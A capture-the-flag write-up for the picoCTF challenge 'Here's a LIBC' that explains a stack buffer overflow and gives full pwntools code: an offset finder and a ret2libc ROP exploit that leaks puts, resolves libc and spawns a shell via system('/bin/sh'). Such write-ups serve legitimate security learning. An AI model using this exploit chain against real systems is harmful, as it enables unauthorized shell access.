 # Writeup - Here's a LIBC
Category: Binary Exploitation, Points: 100


## Descpriton

> I'm one again asking you to pwn this binary

A binary file, a makefile and a LIBC file were attached.

```makefile
all:
  gcc -Xlinker -rpath=./ -m64 -fno-stack-protector -no-pie -o vuln vuln.c

clean:
  rm vuln
```


## Vulnerability
First, open up the vuln binary with Ghidra to see the decomplied C code. If you look at the `main` function there is a `while`-loop that calls a function `do_stuff`. Inside this function there is a variable of size 112 but it's contents are read through `scanf`. This is a buffer-overflow. The idea now is to write a more than 112 bytes as input and then some code so that we can run that code. That code will essentially pop a shell with `/bin/sh`.


## Exploit

We first try to find how many characters to fill before the malicious code.

Script to find offset:

```python
from pwn import *

io = process("./vuln")
print(io.recvregex(b'!')) # read until we get the prompt
io.sendline(cyclic(500))
io.wait()
core = io.corefile
rsp = core.rsp
info("rsp = %#x", rsp)
pattern = core.read(rsp, 4)
rip_offset = cyclic_find(pattern)
info("rip offset is %d", rip_offset)
```

Full exploit:

```python
import sys

from pwn import *

libcelf = {
  "local": "/lib/x86_64-linux-gnu/libc.so.6",
  "remote": "./libc.so.6"
}

mode = sys.argv[1]
print(f"mode: {mode}")
if mode != "local" and mode != "remote": print("exitting.."); sys.exit()

vuln_elf = ELF("./vuln")
r = vuln_elf.process() if mode == "local" else remote("mercury.picoctf.net", sys.argv[2])

libc = ELF(libcelf[mode])

pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

puts_plt = vuln_elf.plt['puts'] #grab plt address of puts function
main_plt = vuln_elf.symbols['main'] #grab address of main
puts_got = vuln_elf.got['puts']

junk = b"A" * 136

log.info(f"main starts @ {hex(main_plt)}")
log.info(f"puts plt @ {hex(puts_plt)}")
log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"puts got @ {hex(puts_got)}")

rop1 = b""
rop1 += junk
rop1 += p64(pop_rdi) #fill rip with pop rdi; ret address
rop1 += p64(puts_got) #put address of puts global offset table in the rdi register
rop1 += p64(puts_plt) #call to puts in the procedural link table, looks to rdi for argument (puts_got)
rop1 += p64(main_plt) #return to main of program after tricking it into leaking puts address

print(r.clean()) #clean buffer and print all received bytes
r.sendline(rop1)

print(r.recvline())

received_line = r.recvline().strip()
leak = u64(received_line.ljust(8, b"\x00"))
log.info(f"leaked puts address @ {hex(leak)}")

libc.address = leak - libc.symbols['puts']
log.info(f"libc base @ {hex(libc.address)}")
log.info("now we have libc base, we can find system and pwn that sh*t")

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.symbols['system']

log.info(f"/bin/sh located @ {hex(bin_sh)}")
log.info(f"system function located @ {hex(system)}")

rop2 = b""
rop2 += junk
rop2 += p64(ret)
rop2 += p64(pop_rdi) #Once again, pop rdi to place argument in
rop2 += p64(bin_sh) #put /bin/sh into rdi to be passed to system
rop2 += p64(system) #call system with /bin/sh argument from rdi

r.clean()
r.sendline(rop2)
r.interactive()
```

